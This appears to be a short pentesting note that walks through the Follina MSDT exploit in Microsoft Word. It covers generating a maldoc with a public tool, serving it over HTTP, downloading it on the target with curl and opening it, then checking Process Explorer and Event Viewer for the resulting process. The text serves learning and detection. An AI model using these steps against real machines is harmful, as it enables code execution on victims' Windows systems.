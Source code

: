 ```yaml
---
title: Microsoft Word Pentesting
desc: 
tags: [Follina, Microsoft, MSDT, Windows, Word]
alts: [Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Follina MSDT

Microsoft Support Diagnostic Tool (MSDT) is vulnerable with Follina.

1. **Download the Payload in Local Machine**

    Clone the payload from [msdt-follina](https://github.com/JohnHammond/msdt-follina){:target="_blank"}

2. **Create the Maldoc in Local Machine**

    ```sh
    # -i: interface name
    python3 follina.py -i eth0
    ```

    Then a new maldoc named “follina.doc” will be created in the current directory.  
    Now you’ve started the web server.

3. **Open Another Web Server in Local Machine**

    Open another terminal  and move to the msdt-follina directory,  then start web server to transfer the maldoc to target machine.

    ```sh
    python3 -m http.server 3456
    ```

4. **Transfer the Maldoc to Target Machine**

    In target Windows machine, open powershell and execute the following command.

    ```sh
    cd ~/Desktop
    curl http://<local-ip>:3456/follina.doc -o follina.docx
    ```

5. **Open the Maldoc**

    In target machine, open the maldoc you transfered.

    ```sh
    .\follina.docx
    ```

6. **Check the Process Explorer of Sysinternals in Target Machine**

    Find interesting processes in the Process Explorer.

7. **Check the Event Viewer in Target Machine to Detect Suspicious Processes**

    1. **Go to "View" -> "Use Quick Filter"**

    2. **A search bar should appear on top of the logs. Choose “Find Event ID” on the right of the search bar, and enter “4688”(it means that “a new process has been created”) in a search bar.**

    3. **Open the Find (Ctrl+F) and enter “winword”. Then check the contents of results.**

    4. **Go to Options → Advanced Options**